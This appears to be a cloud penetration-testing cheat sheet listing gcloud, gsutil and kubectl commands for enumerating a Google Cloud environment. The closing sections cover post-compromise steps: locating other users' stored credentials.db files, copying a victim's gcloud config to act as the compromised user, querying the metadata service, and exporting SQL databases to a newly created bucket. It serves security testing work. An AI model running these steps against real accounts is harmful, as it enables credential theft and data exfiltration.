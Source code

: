 # **ACCOUNT INFORMATION**
#### User Identity Login
```gcloud auth login```
#### Service Account Login
```gcloud auth activate-service-account --key-file creds.json```
#### List Accounts Available to gcloud
```gcloud auth list```
#### List Organizations
```gcloud organizations list```
#### Enumerate IAM Policies set ORG-Wide
```gcloud organizations get-iam-policy <org ID>```
#### Enumerate IAM Policies set per project
```gcloud projects get-iam-policy <project ID>```
#### List Projects
```gcloud projects list```
#### Change or Set a different project
```gcloud config set project <project name>```
#### Gives a list of all APIs that are enabled in a project
```gcloud services list```
#### Get source code repos available to user
```gcloud source repos list```
#### Clone repo to home dir
```gcloud source repos clone <repo_name>```

# **VIRTUAL MACHINES**
#### List compute instances
```gcloud compute instances list```
#### Give Shell Access to instance
```gcloud beta compute ssh --zone "<region>" "<instance name>" --project "<project name>"```
#### Puts public ssh key onto metadata service for project
```gcloud compute ssh <local host>```
#### Get access scopes if on an instance
```curl http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes -H 'Metadata-Flavor:Google’``````
#### Use Google keyring to decrypt encrypted data
```gcloud kms decrypt --ciphertext-file=encrypted-file.enc --plaintext-file=out.txt --key <crypto-key> --keyring <crypto-keyring> --location global```

# **STORAGE**
#### List Google Storage buckets
```gsutil ls```

#### List Google Storage buckets recursively
```gsutil ls -r gs://<bucket name>```

#### Copy item from bucket
```gsutil cp gs://bucketid/item ~/```

# **WEBAPPS AND SQL**
#### List WebApps
```gcloud app instances list```

#### List SQL instances
```gcloud sql instances list```
```gcloud spanner instances list```
```gcloud bigtable instances list```

#### List SQL databases
gcloud sql databases list --instance <instance ID>
gcloud spanner databases list --instance <instance name>

#### Export SQL databases and buckets
First, copy buckets to the local directory
```gsutil cp gs://bucket-name/folder/ .```

#### Create a new storage bucket, change perms, export SQL DB
```gsutil mb gs://<googlestoragename>```
```gsutil acl ch -u <service account> gs://<googlestoragename>```
```gcloud sql export sql <sql instance name> gs://<googlestoragename>/sqldump.gz --database=<database name>```

# **NETWORKING**
#### List networks
```gcloud compute networks list```

#### List subnets
```gcloud compute networks subnets list```

#### List VPN tunnels
```gcloud compute vpn-tunnels list```

#### List Interconnects (VPN)
```gcloud compute interconnects list```

# **CONTAINERS**
---
#### List existing containers in cluster
gcloud container clusters list

#### To get GCP Kubernetes config file ~/.kube/config gets generated when you are authenticated with gcloud and run
```gcloud container clusters get-credentials <cluster name> --region <region>```
#### If successful and the user has the correct permission the Kubernetes command below can be used to get cluster info
```kubectl cluster-info```

# **SERVERLESS**
#### GCP functions log analysis – May get useful information from logs associated with GCP functions
```gcloud functions list```
```gcloud functions describe <function name>```
```gcloud functions logs read <function name> --limit <number of lines>```

#### GCP Cloud Run analysis – May get useful information from descriptions such as environment variables.
```gcloud run services list```
```gcloud run services describe <service-name>```
```gcloud run revisions describe --region=<region> <revision-name>```

#### Gcloud stores creds in ~/.config/gcloud/credentials.db Search home directories
```sudo find /home -name "credentials.db```

#### Copy gcloud dir to your own home directory to auth as the compromised user
```sudo cp -r /home/username/.config/gcloud ~/.config```
```sudo chown -R currentuser:currentuser ~/.config/gcloud```
```gcloud auth list```

#### Metadata Service URL
```curl "http://metadata.google.internal/computeMetadata/v1/?recursive=true&alt=text" -H "Metadata-Flavor: Google"```
